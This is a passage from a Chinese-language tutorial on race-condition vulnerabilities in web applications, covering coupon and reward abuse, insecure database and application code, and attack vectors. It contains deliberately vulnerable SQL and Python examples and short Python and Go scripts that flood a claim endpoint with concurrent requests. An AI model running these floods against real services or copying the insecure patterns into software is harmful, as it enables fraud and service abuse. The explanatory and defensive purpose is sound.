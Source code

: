 #### 3.1.2 资格型并发
- 首单优惠重复领取
- 新手礼包多账号获取
- 实名认证奖励滥用

### 3.2 基于技术实现
#### 3.2.1 数据库层并发
```sql
-- 不安全实现示例
BEGIN TRANSACTION;
SELECT stock FROM products WHERE id=1;
-- 在此处存在时间窗口
UPDATE products SET stock = stock -1 WHERE id=1;
COMMIT;
```

#### 3.2.2 应用层并发
```python
# 伪代码示例
def claim_coupon(user_id):
    coupon = db.query(Coupon).filter(stock > 0).first()
    if coupon:
        coupon.stock -= 1
        db.commit()
        assign_to_user(user_id)
```

## 4. 技术实现细节
### 4.1 典型攻击向量
#### 4.1.1 HTTP请求风暴
```python
import threading
import requests

def attack():
    while True:
        requests.post('https://target.com/claim', cookies=session_cookie)

for _ in range(100):
    threading.Thread(target=attack).start()
```

#### 4.1.2 Websocket连接池
通过维持大量长连接制造并发环境

#### 4.1.3 分布式节点攻击
```go
func main() {
    var wg sync.WaitGroup
    for i := 0; i < 1000; i++ {
        wg.Add(1)
        go func() {
            defer wg.Done()
            sendRequest()
        }()
    }
    wg.Wait()
}
```
